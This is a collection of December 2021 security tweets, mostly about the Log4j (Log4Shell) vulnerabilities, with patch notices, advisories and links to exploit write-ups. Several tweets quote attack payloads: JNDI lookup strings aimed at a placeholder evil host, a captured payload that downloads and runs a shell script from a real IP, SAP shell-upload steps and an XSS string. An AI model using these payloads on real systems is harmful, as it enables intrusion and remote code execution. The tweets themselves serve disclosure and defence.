# _ForrestOrr
**https://twitter.com/_ForrestOrr/status/1476210760514785282 _at 2021-12-29, 15:17:26_**
<blockquote>
My personalized Windows 10 re-creation of the HYDSEVEN exploit chain used to target Coinbase. This chain involves the use of a Firefox RCE (CVE-2019-11707) and Firefox sandbox escape (CVE-2019-11708) for shellcode execution as Medium Integrity https://t.co/E1fftDiltx
</blockquote>

* https://github.com/forrest-orr/Exploits/tree/main/Chains/Hydseven

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>181</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1475903286913998853 _at 2021-12-28, 18:55:39_**
<blockquote>
If any person or organization is suggesting you get spun up about CVE-2021-44832, you should really take a good look at what their motivations may be. https://t.co/RgkvCu3sv2
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>28</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>109</code></td>
<td>Favorites: <code>405</code></td>
</tr></table>

---

# linkersec
**https://twitter.com/linkersec/status/1475870580540850179 _at 2021-12-28, 16:45:41_**
<blockquote>
CVE-2021-44733: Fuzzing and exploitation of a use-after-free in the Linux kernel TEE subsystem

An article about a bug in the Trusted Execution Environment subsystem. By Patrik Lantz @pjlantz.

https://t.co/dPaOV5MV4S
</blockquote>

* https://github.com/pjlantz/optee-qemu/blob/main/README.md

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1475489097561083904 _at 2021-12-27, 15:29:48_**
<blockquote>
Exploitation of CVE-2021-21220 – From Incorrect JIT Behavior to RCE  https://t.co/O1IUxgrhDi  #Pentesting #Exploit #RCE #CVE #CyberSecurity #Infosec https://t.co/Na2iutLTUr
</blockquote>

* https://www.zerodayinitiative.com/blog/2021/12/15/exploitation-of-cve-2021-21220-from-incorrect-jit-behavior-to-rce

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---

# dawnseclab
**https://twitter.com/dawnseclab/status/1473974223064510465 _at 2021-12-23, 11:10:14_**
<blockquote>
Writeup for exploiting CVE-2021-31956 Windows Kernel NTFS privilege escalation (Chinese version) https://t.co/hlKtjFq9HR
</blockquote>

* https://dawnslab.jd.com/CVE-2021-31956/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>105</code></td>
<td>Favorites: <code>255</code></td>
</tr></table>

---

# symeonp
**https://twitter.com/symeonp/status/1473775356301688838 _at 2021-12-22, 22:00:01_**
<blockquote>
Playing with @0xeb_bp's CVE-2020-1054 (Win32k LPE exploit) initially found by Checkpoint research &amp; Qihoo 360 Vulcan using @tetrane's amazing Reven - this will be fun! Check it out if you're using the free version as well and want more practical windows analysis vulns/exploits! https://t.co/vpLln8T0rm
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1473247788838551554 _at 2021-12-21, 11:03:39_**
<blockquote>
RT @zapstiko: 📢 #Log4j Vulns ~ @1ZRR4H

1) CVE-2021-44228 (RCE) - Critical
Payload: ${jndi:ldap://evil[.]com:1389/a}

2) CVE-2021-45046 (RC…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>149</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1472929717938532353 _at 2021-12-20, 13:59:45_**
<blockquote>
🐞 PoC for a Post-Auth RCE (CVE-2021-38163) in SAP NetWeaver. The vulnerability was found by our researcher Mikhail Klyuchnikov.

Reproduction steps:
1. Upload a jsp shell using the /irj/servlet/prt/portal/prtroot/com.sap.visualcomposer.VCParMigrator path
2. Execute OS commands https://t.co/iHqgYnT2lA
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>163</code></td>
<td>Favorites: <code>394</code></td>
</tr></table>

---

# reconshell
**https://twitter.com/reconshell/status/1472586681664434177 _at 2021-12-19, 15:16:38_**
<blockquote>
Windows AD privilege escalation

#PrivilegeEscalation #CVE-2021-42278 #Scanning
#Exploitation #Windows #Hacking #AD #RedTeam

@Emrullah_A @D3pak @ADITYASHENDE17 

https://t.co/KNdAaTmvfd
</blockquote>

* https://reconshell.com/windows-ad-privilege-escalation/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>158</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1472254703501258756 _at 2021-12-18, 17:17:29_**
<blockquote>
📢 #Log4j Vulns ~

1) CVE-2021-44228 (RCE) - Critical
Payload: ${jndi:ldap://evil[.]com:1389/a}

2) CVE-2021-45046 (RCE) - Critical
Payload: ${jndi:ldap://127.0.0.1#evil[.]com:1389/a}

3) CVE-2021-45105 (DoS) - High
Payload: ${${::-${::-$${::-j}}}}

🛡️ https://t.co/5tGvl1URht https://t.co/FOyB1HcstQ
</blockquote>

* https://logging.apache.org/log4j/2.x/security.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>160</code></td>
<td>Favorites: <code>430</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1472230763655532552 _at 2021-12-18, 15:42:21_**
<blockquote>
Well, log4j 2.17 was released to fix CVE-2021-45105, which is just like CVE-2021-45046 but only a DoS impact.
https://t.co/eEk5mPHPp1
Before anybody freaks out too much, I've still yet to be told a single real-world Java application that's vulnerable to either CVE.
</blockquote>

* https://logging.apache.org/log4j/2.x/security.html#Fixed_in_Log4j_2.17.0_.28Java_8.29

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>224</code></td>
</tr></table>

---

# Laughing_Mantis
**https://twitter.com/Laughing_Mantis/status/1471904726530740225 _at 2021-12-17, 18:06:48_**
<blockquote>
#Log4J Update!

CVE-2021-45046, aka the 2nd bug that was found in version 2.15 and initially believed to be a denial of service, has in fact been found to be a RCE vuln in limited conditions

Cvss is now 9.0 not 3.7!

Attackers are attempting this vuln ITW

PATCH TO 2.16 *NOW*
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---

# snovvcrash
**https://twitter.com/snovvcrash/status/1471829627765239816 _at 2021-12-17, 13:08:23_**
<blockquote>
[HackTip ⚒] A quick way to perform CVE-2021-42278 / CVE-2021-42287 (aka sAMAccountName Spoofing) controlled exploitation from a beacon session without 'auto pwning' tools 👾 https://t.co/q1ckhkKd89
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>148</code></td>
</tr></table>

---

# christophetd
**https://twitter.com/christophetd/status/1471823969548488710 _at 2021-12-17, 12:45:54_**
<blockquote>
The second Log4j vulnerability (CVE-2021-45046) identified in 2.15.0, was just reclassified from "DoS" to "RCE" and had its CVSS score bumped from 3.7 to 9.0🙉

Upgrade to 2.16!

https://t.co/79pBar8qzq
</blockquote>

* https://www.lunasec.io/docs/blog/log4j-zero-day-severity-of-cve-2021-45046-increased/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# elhackernet
**https://twitter.com/elhackernet/status/1471820723714932740 _at 2021-12-17, 12:33:00_**
<blockquote>
🪟 Microsoft parchea un 0day usado para propagar Emotet
🔃Corrige vulnerabilidad que suplanta la identidad del instalador de AppX afectando a Microsoft Windows (CVE-2021-43890).
*⃣ Familias de malware como Emotet, TrickBot o Bazaloader
https://t.co/1AvZZ0q4T5 https://t.co/jbn9IKUj1p
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-43890

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# marcwrogers
**https://twitter.com/marcwrogers/status/1471820651010961412 _at 2021-12-17, 12:32:42_**
<blockquote>
CVE-2021-45046 changed from CVSS 3.7 to 9.0 due to it being determined that the issue was an RCE in Log4j 2.15 and NOT a DOS as first assessed. Recommend reassessing mitigation and exposure.

https://t.co/SnzaW8lyoc
</blockquote>

* https://logging.apache.org/log4j/2.x/security.html

<table><tr>
<td>Quotes: <code>31</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>158</code></td>
<td>Favorites: <code>357</code></td>
</tr></table>

---

# GossiTheDog
**https://twitter.com/GossiTheDog/status/1471791074314276867 _at 2021-12-17, 10:35:11_**
<blockquote>
Log4j hype check: the new CVE-2021-45046:

- only applies in certain *non-default* configurations
- remote code execution has been demonstrated on *macOS* - not reproducible in other test environments
- no exploitation seen in wild

Not many orgs will be hosting webapps on MacOS.
</blockquote>

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>151</code></td>
<td>Favorites: <code>751</code></td>
</tr></table>

---

# ankit_anubhav
**https://twitter.com/ankit_anubhav/status/1471746747735044098 _at 2021-12-17, 07:39:03_**
<blockquote>
The second exploit CVE-2021-45046 severity is now raised 9.0 instead of the 3.7

Also Apache themselves are saying RCE is possible so we have to trust it. It's not just DOS.

https://t.co/1Ha7SPdbVu

#log4j #log4shell https://t.co/kSYnYs0eWE
</blockquote>

* https://logging.apache.org/log4j/2.x/security.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---

# hostifi_net
**https://twitter.com/hostifi_net/status/1471125596457549825 _at 2021-12-15, 14:30:49_**
<blockquote>
We're working on updating all of our servers to #UniFi Network version 6.5.55 today to patch CVE-2021-45046.

This was reported as a DoS vulnerability, not RCE, and no exploits against UniFi are known at this time, but we're still pushing this update out immediately. https://t.co/bdLprjme4s
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1470960102232444940 _at 2021-12-15, 03:33:12_**
<blockquote>
As we continue to monitor threats taking advantage of the CVE-2021-44228 Log4j 2 vulnerability, we’re seeing activity ranging from experimentation to exploitation from multiple groups, including nation-state actors and access brokers linked to ransomware: https://t.co/WWSxGvaiDy
</blockquote>

* https://msft.it/6015ZJbYt

<table><tr>
<td>Quotes: <code>35</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>299</code></td>
<td>Favorites: <code>490</code></td>
</tr></table>

---

# certcc
**https://twitter.com/certcc/status/1470944960694431754 _at 2021-12-15, 02:33:02_**
<blockquote>
You all know by now about the #log4j CVE-2021-44228 that affects lots of Java applications, right?
No? Well that extra sleep must be nice!
We've published a vulnerability note with details: https://t.co/tMcFgcI0bL
We link to PowerShell and Python3 scanners to find jar files too. https://t.co/uCzuSYkLIu
</blockquote>

* https://www.kb.cert.org/vuls/id/930724

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---

# LunaSecIO
**https://twitter.com/LunaSecIO/status/1470863392692867074 _at 2021-12-14, 21:08:54_**
<blockquote>
We just updated our Mitigation Guide with the 2nd log4j vulnerability (CVE-2021-45046).

It's RCE for log4j &lt;=2.14.1 in limited contexts even w/ NO_LOOKUPS set, and DOS for 2.15.0, but we're still investigating and will publish a dedicated write-up soon.
https://t.co/gStrZFGV2Z
</blockquote>

* https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1470817659893821450 _at 2021-12-14, 18:07:11_**
<blockquote>
The Microsoft December 2021 Patch Tuesday is out with fixes for 83 vulnerabilities.

A patch for the actively exploited CVE-2021-43890  zero-day in the Windows AppX Installer was also included.

https://t.co/y7iODjjBaZ https://t.co/mi6PSZSN1i
</blockquote>

* https://rawcdn.githack.com/campuscodi/Microsoft-Patch-Tuesday-Security-Reports/b8b6957e33171f633ada139a162df7066765f32b/Reports/MSRC_CVEs2021-Dec.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>105</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1470804255552557064 _at 2021-12-14, 17:13:55_**
<blockquote>
For those relying on LOG4J_FORMAT_MSG_NO_LOOKUPS=true as a mitigation for CVE-2021-44228:
While this does help, an app *MAY* still be vulnerable, depending on how it uses log4j. https://t.co/bzKxDboIn2
Example vulnerable app: https://t.co/wpwrLblBWF
Not sure how common this is... https://t.co/1V0TtGGicZ
</blockquote>

* https://github.com/apache/logging-log4j2/pull/608#issuecomment-993542299
* https://github.com/kmindi/log4shell-vulnerable-app

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>19</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>192</code></td>
<td>Favorites: <code>482</code></td>
</tr></table>

---

# 0xInfection
**https://twitter.com/0xInfection/status/1470802511686561795 _at 2021-12-14, 17:06:59_**
<blockquote>
Since the final fix for the #log4j RCE vulnerability is out — I'm finally open-sourcing a scanning toolkit for CVE-2021-44228 that I developed over the weekend. Features include automatic Canary Tokens generation, request customization and many others. :)

https://t.co/0KOOewcFLW
</blockquote>

* https://github.com/0xInfection/LogMePwn

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>316</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1470768412003602441 _at 2021-12-14, 14:51:29_**
<blockquote>
PoC for a stored XSS in https://t.co/V1D61pmt0X (CVE-2021-22886). The vulnerability was found by our researcher Igor Sak-Sakovskiy.

Payload: 
https://t.co/RMWVhv8m1I&lt;https://t.co/uiEn4ir42y; a|Text&gt;th/a https://t.co/pUeWaDSP4j
</blockquote>

* http://Rocket.Chat
* http://www.google.com
* http://www.google.com/pa
* http://google.com/onmouseover=alert(1)

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>148</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1470752374306320393 _at 2021-12-14, 13:47:45_**
<blockquote>
CVE-2021-44228 log4j2 Waf Bypass 
https://t.co/MUvFBTp41s https://t.co/81QMJDEglo
</blockquote>

* https://github.com/woodpecker-appstore/log4j-payload-generator

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>188</code></td>
</tr></table>

---

# theCyberGuy0
**https://twitter.com/theCyberGuy0/status/1470669811269181444 _at 2021-12-14, 08:19:41_**
<blockquote>
Received my first CVE due to finding and exploiting Local File Inclusion [LFI] in HD-Network Real-time Monitoring System - 2.0.

CVE ID: CVE-2021-45043

Alhamdulilah ❤️❤️

#cybersecurity #cve #infosecurity #infosec
#cybersec #bugbounty #bughunting
#informationsecurity #0day #lfi https://t.co/6pdPmK8e48
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1470546087442366469 _at 2021-12-14, 00:08:03_**
<blockquote>
CISA has created a new webpage to help track and take action against the Apache Log4j #RCE vulnerability CVE-2021-44228. Read more at https://t.co/5UPFpnhhii. #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xeHB2

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>154</code></td>
<td>Favorites: <code>176</code></td>
</tr></table>

---

# MalwareTechBlog
**https://twitter.com/MalwareTechBlog/status/1470509062366253056 _at 2021-12-13, 21:40:55_**
<blockquote>
Quick walkthrough of how the log4j (CVE-2021-44228) vulnerability works
https://t.co/bE5yLGF15w
</blockquote>

* https://www.youtube.com/watch?v=0-abhd-CLwQ

<table><tr>
<td>Quotes: <code>22</code></td>
<td>Replies: <code>19</code></td>
<td>Retweets: <code>276</code></td>
<td>Favorites: <code>935</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1470505967196545025 _at 2021-12-13, 21:28:37_**
<blockquote>
I cannot stress how wrong the NVD / Mitre entry is for CVE-2021-44228.
The fact that you're running a current JRE version does NOT protect against RCE with log4j! https://t.co/JwHgUhJ5To
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>112</code></td>
<td>Favorites: <code>341</code></td>
</tr></table>

---

# jas502n
**https://twitter.com/jas502n/status/1470110582288584705 _at 2021-12-12, 19:17:30_**
<blockquote>
#CVE-2021-44228

Advanced usage Remote Code Injection In Log4j

https://t.co/TQb4WvPWwi
</blockquote>

* https://github.com/jas502n/Log4j2-CVE-2021-44228

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>230</code></td>
</tr></table>

---

# threedr3am1
**https://twitter.com/threedr3am1/status/1469911160111566851 _at 2021-12-12, 06:05:04_**
<blockquote>
Congratulations to SecCoder Security Lab for welcoming two CVEs.
h2 XML External Entity (XXE) Injection [CVE-2021-23463]: https://t.co/OWjz7JxxTy
Spring Cloud Netflix Hystrix Dashboard template resolution vulnerability[CVE-2021-22053]: https://t.co/olan3QIjeS https://t.co/U0lIMFRWwP
</blockquote>

* https://security.snyk.io/vuln/SNYK-JAVA-COMH2DATABASE-1769238
* https://tanzu.vmware.com/security/cve-2021-22053

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1469904367281229824 _at 2021-12-12, 05:38:05_**
<blockquote>
Microsoft is tracking threats taking advantage of the CVE-2021-44228 remote code execution (RCE) vulnerability in Apache Log4j 2 ("Log4Shell"). Get technical info and guidance for preventing, detecting, and hunting for related attacks: https://t.co/vOB7R1LXlj
</blockquote>

* https://msft.it/6019ZENIW

<table><tr>
<td>Quotes: <code>31</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>466</code></td>
<td>Favorites: <code>836</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1469522411770974209 _at 2021-12-11, 04:20:20_**
<blockquote>
⚡ #Log4Shell / CVE-2021-44228 / CVSS 10

A new highly critical RCE #vulnerability in the Java-based #Log4J logging library affects a large number of applications and services on the Internet.

Details — https://t.co/aHGWuHZA5l

#infosec #cybersecurity #hacking #technews
</blockquote>

* https://thehackernews.com/2021/12/extremely-critical-log4j-vulnerability.html

<table><tr>
<td>Quotes: <code>20</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>243</code></td>
<td>Favorites: <code>367</code></td>
</tr></table>

---

# nixcraft
**https://twitter.com/nixcraft/status/1469511453187006465 _at 2021-12-11, 03:36:47_**
<blockquote>
Java is the #1 enterprise language. Bank &amp; other places I spent, Java and its ecosystem were huge. A 0day exploit affecting the popular Apache Log4j utility (CVE-2021-44228) was made public recently, resulting in RCE. You need at least v2.15.0 to patch it https://t.co/pPQZa8q483
</blockquote>

* https://logging.apache.org/log4j/2.x/download.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>113</code></td>
</tr></table>

---

# butch7903
**https://twitter.com/butch7903/status/1469465289108729865 _at 2021-12-11, 00:33:20_**
<blockquote>
Perfect 10.0 security vulnerability found in most VMware products. Please spread the word to make everyone aware.

VMSA-2021-0028 - VMware Response to Apache Log4j Remote Code Execution Vulnerability (CVE-2021-44228)

Info: https://t.co/y3iiAOdhwq
#vExpert  #log4j #VMUG
</blockquote>

* https://www.vmware.com/security/advisories/VMSA-2021-0028.html

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---

# fastly
**https://twitter.com/fastly/status/1469439041942786051 _at 2021-12-10, 22:49:03_**
<blockquote>
In this blog, our Security Research Team explains the Apache Log4j vulnerability (CVE-2021-44228), which is being exploited actively.

Read on for our observations into the exploit, a summary of its impact, and remediation tips for our customers: https://t.co/l8DXMxvPzg
</blockquote>

* https://fastly.us/3IAJZv7

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1469408389331488771 _at 2021-12-10, 20:47:14_**
<blockquote>
Example CVE-2021-44228 payload:
${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}

Decoded:
(curl -s 80.71.158.12/lh.sh||wget -q -O- 80.71.158.12/lh.sh)|bash

Source IP:
62.76.41.46 (🇷🇺) https://t.co/LKdaZ9Lfos
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1469352402545483790 _at 2021-12-10, 17:04:46_**
<blockquote>
Upgrade ASAP to protect yourself from the #RCE vulnerability, CVE-2021-44228, affecting Apache Log4j. Read more at https://t.co/Cx6dPwwdmG  #ZeroDay #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xeATj

<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>267</code></td>
<td>Favorites: <code>383</code></td>
</tr></table>

---

# ET_Labs
**https://twitter.com/ET_Labs/status/1469339963871354884 _at 2021-12-10, 16:15:21_**
<blockquote>
We've released out-of-band #Suricata and #Snort IDS signature coverage for CVE-2021-44228 #log4j RCE.  These are ET Open free community detections to alert on current exploit activity.  SID range 2034647-2034652.  https://t.co/j7Vc3tNy6L
</blockquote>

* https://rules.emergingthreatspro.com/open/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>167</code></td>
</tr></table>

---

# dannyjpalmer
**https://twitter.com/dannyjpalmer/status/1469339399771066377 _at 2021-12-10, 16:13:06_**
<blockquote>
A newly discovered zero-day vulnerability in widely used Java logging library Apache Log4j is easy to exploit and enables attackers to gain full control of affected 
servers. 

My write-up on Log4Shell/CVE-2021-44228.

https://t.co/3GruwCUWbh via @ZDNet
</blockquote>

* https://zd.net/3DUGR9T

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1469334738225741832 _at 2021-12-10, 15:54:35_**
<blockquote>
Due to the severity of this vulnerability, we are going to regularly updating the IPs that have been tagged as exploiting Apache Log4J CVE-2021-44228 for non-GreyNoise users.

https://t.co/NxcIwzWs6J

Follow this thread for updates.
</blockquote>

* https://gist.github.com/gnremy/c546c7911d5f876f263309d7161a7217

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1469326260803416073 _at 2021-12-10, 15:20:53_**
<blockquote>
GreyNoise is detecting a sharply increasing number of hosts opportunistically exploiting Apache Log4J CVE-2021-44228. Exploitation occurring from ~100 distinct hosts, almost all of which are Tor exit nodes. Tags available to all users and customers now. 

https://t.co/JF3tUkpIrq https://t.co/CTMi0IWQ5j
</blockquote>

* https://www.greynoise.io/viz/query/?gnql=tags%3A%22Apache%20Log4j%20RCE%20Attempt%22

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>106</code></td>
<td>Favorites: <code>137</code></td>
</tr></table>

---

# NotMedic
**https://twitter.com/NotMedic/status/1469314315614314505 _at 2021-12-10, 14:33:26_**
<blockquote>
DNS lookups are cool and all, but this is what you'll need to turn CVE-2021-44228 into RCE:
https://t.co/ejc6u6PRfW
</blockquote>

* https://github.com/welk1n/JNDI-Injection-Exploit

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>103</code></td>
<td>Favorites: <code>342</code></td>
</tr></table>

---

# sans_isc
**https://twitter.com/sans_isc/status/1469305954835521539 _at 2021-12-10, 14:00:12_**
<blockquote>
Apache #log4j2 exploitation in full swing. PATCH NOW!! CVE-2021-44228 . 200+ exploit attempts against our honeypot so far from approx 100 sources. "bingsearchlib[.]com:39356" is particularly popular #log4j #cve202144228 #rce #0day #PATCHNOW https://t.co/TySpQ7zVMN
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---

# _JohnHammond
**https://twitter.com/_JohnHammond/status/1469290505183940617 _at 2021-12-10, 12:58:49_**
<blockquote>
@MixedNuts0 Zero-day vulnerability (now CVE-2021-44228) in Java logging package "log4j", offering a threat actor remote code execution and affecting an enormous amount of software that bundles it (not just Minecraft). I'm trying to recreate it within Minecraft https://t.co/WbXy600Sd1
</blockquote>

* https://arstechnica.com/information-technology/2021/12/minecraft-and-other-apps-face-serious-threat-from-new-code-execution-bug/

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>236</code></td>
</tr></table>

---

# BleepinComputer
**https://twitter.com/BleepinComputer/status/1469280399532695552 _at 2021-12-10, 12:18:39_**
<blockquote>
@serghei Apache has released Log4j 2.15.0 to address the maximum severity CVE-2021-44228 RCE vulnerability.

https://t.co/PzSkXJUxEi

Mitigation for previous releases (&gt;=2.10): set system property "log4j2.formatMsgNoLookups" to "true" or remove the JndiLookup class from the classpath.
</blockquote>

* https://logging.apache.org/log4j/2.x/download.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# circl_lu
**https://twitter.com/circl_lu/status/1469261434446036997 _at 2021-12-10, 11:03:18_**
<blockquote>
TR-65 - Vulnerabilities and Exploitation of Log4j (Remote code injection in Log4j)

https://t.co/YqFmTTFQFK

We will update regularly the TR with additional information.  CVE-2021-44228 https://t.co/4GNcI1CmdA
</blockquote>

* https://www.circl.lu/pub/tr-65/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# volker_simonis
**https://twitter.com/volker_simonis/status/1469256987196100608 _at 2021-12-10, 10:45:37_**
<blockquote>
I've written a simple (i.e. standalone, no dependencies) Java program which patches JndiLookup.lookup() to return a fixed string and not parse its arguments. This should fix CVE-2021-44228 (i.e. RCE in Log4j) without restarting your JVM process. #Log4J

https://t.co/43wZBX6HZZ
</blockquote>

* https://github.com/simonis/Log4jPatch

<table><tr>
<td>Quotes: <code>35</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>347</code></td>
<td>Favorites: <code>1166</code></td>
</tr></table>

---

# BurpBounty
**https://twitter.com/BurpBounty/status/1469249786092085249 _at 2021-12-10, 10:17:01_**
<blockquote>
